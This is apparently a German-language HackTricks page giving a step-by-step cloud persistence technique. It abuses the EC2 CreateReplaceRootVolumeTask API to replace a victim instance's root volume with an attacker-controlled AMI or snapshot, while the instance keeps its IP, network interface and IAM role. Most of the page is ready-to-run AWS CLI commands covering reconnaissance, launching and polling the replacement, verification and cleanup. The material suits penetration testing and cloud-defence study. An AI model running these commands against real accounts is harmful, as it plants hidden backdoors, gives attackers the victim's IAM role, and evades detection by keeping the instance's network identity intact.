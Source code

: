 # AWS - EC2 ReplaceRootVolume Task (Stealth Backdoor / Persistence)

{{#include ../../../../banners/hacktricks-training.md}}

Missbrauche **ec2:CreateReplaceRootVolumeTask**, um das Root-EBS-Volume einer laufenden Instanz durch ein aus einem vom Angreifer kontrollierten AMI oder Snapshot wiederhergestelltes Volume zu ersetzen. Die Instanz wird automatisch neu gestartet und läuft mit dem vom Angreifer kontrollierten Root-Dateisystem weiter, während ENIs, private/public IPs, attached non-root volumes und die instance metadata/IAM role erhalten bleiben.

## Voraussetzungen
- Zielinstanz ist EBS-backed und läuft in derselben Region.
- Kompatibles AMI oder Snapshot: gleiche Architektur/Virtualisierung/Boot-Modus (und Produktcodes, falls vorhanden) wie die Zielinstanz.

## Vorprüfungen
```bash
REGION=us-east-1
INSTANCE_ID=<victim instance>

# Ensure EBS-backed
aws ec2 describe-instances   --region $REGION --instance-ids $INSTANCE_ID   --query 'Reservations[0].Instances[0].RootDeviceType' --output text

# Capture current network and root volume
ROOT_DEV=$(aws ec2 describe-instances --region $REGION --instance-ids $INSTANCE_ID   --query 'Reservations[0].Instances[0].RootDeviceName' --output text)
ORIG_VOL=$(aws ec2 describe-instances --region $REGION --instance-ids $INSTANCE_ID   --query "Reservations[0].Instances[0].BlockDeviceMappings[?DeviceName==\`$ROOT_DEV\`].Ebs.VolumeId" --output text)
PRI_IP=$(aws ec2 describe-instances --region $REGION --instance-ids $INSTANCE_ID   --query 'Reservations[0].Instances[0].PrivateIpAddress' --output text)
ENI_ID=$(aws ec2 describe-instances --region $REGION --instance-ids $INSTANCE_ID   --query 'Reservations[0].Instances[0].NetworkInterfaces[0].NetworkInterfaceId' --output text)
```
## root von AMI ersetzen (bevorzugt)
```bash
IMAGE_ID=<attacker-controlled compatible AMI>

# Start task
TASK_ID=$(aws ec2 create-replace-root-volume-task   --region $REGION --instance-id $INSTANCE_ID --image-id $IMAGE_ID   --query 'ReplaceRootVolumeTaskId' --output text)

# Poll until state == succeeded
while true; do
STATE=$(aws ec2 describe-replace-root-volume-tasks --region $REGION     --replace-root-volume-task-ids $TASK_ID     --query 'ReplaceRootVolumeTasks[0].TaskState' --output text)
echo "$STATE"; [ "$STATE" = "succeeded" ] && break; [ "$STATE" = "failed" ] && exit 1; sleep 10;
done
```
Alternative mit einem Snapshot:
```bash
SNAPSHOT_ID=<snapshot with bootable root FS compatible with the instance>
aws ec2 create-replace-root-volume-task   --region $REGION --instance-id $INSTANCE_ID --snapshot-id $SNAPSHOT_ID
```
## Beweise / Verifizierung
```bash
# Instance auto-reboots; network identity is preserved
NEW_VOL=$(aws ec2 describe-instances --region $REGION --instance-ids $INSTANCE_ID   --query "Reservations[0].Instances[0].BlockDeviceMappings[?DeviceName==\`$ROOT_DEV\`].Ebs.VolumeId" --output text)

# Compare before vs after
printf "ENI:%s IP:%s
ORIG_VOL:%s
NEW_VOL:%s
" "$ENI_ID" "$PRI_IP" "$ORIG_VOL" "$NEW_VOL"

# (Optional) Inspect task details and console output
aws ec2 describe-replace-root-volume-tasks --region $REGION   --replace-root-volume-task-ids $TASK_ID --output json
aws ec2 get-console-output --region $REGION --instance-id $INSTANCE_ID --latest --output text
```
Expected: ENI_ID and PRI_IP remain the same; the root volume ID changes from $ORIG_VOL to $NEW_VOL. The system boots with the Dateisystem from the vom Angreifer kontrollierten AMI/snapshot.

## Hinweise
- Die API verlangt nicht, die Instanz manuell zu stoppen; EC2 orchestriert einen Reboot.
- Standardmäßig wird das ersetzte (alte) root EBS Volume abgetrennt und im Account belassen (DeleteReplacedRootVolume=false). Dies kann für ein Rollback verwendet werden oder muss gelöscht werden, um Kosten zu vermeiden.

## Rollback / Bereinigung
```bash
# If the original root volume still exists (e.g., $ORIG_VOL is in state "available"),
# you can create a snapshot and replace again from it:
SNAP=$(aws ec2 create-snapshot --region $REGION --volume-id $ORIG_VOL   --description "Rollback snapshot for $INSTANCE_ID" --query SnapshotId --output text)
aws ec2 wait snapshot-completed --region $REGION --snapshot-ids $SNAP
aws ec2 create-replace-root-volume-task --region $REGION --instance-id $INSTANCE_ID --snapshot-id $SNAP

# Or simply delete the detached old root volume if not needed:
aws ec2 delete-volume --region $REGION --volume-id $ORIG_VOL
```
{{#include ../../../../banners/hacktricks-training.md}}

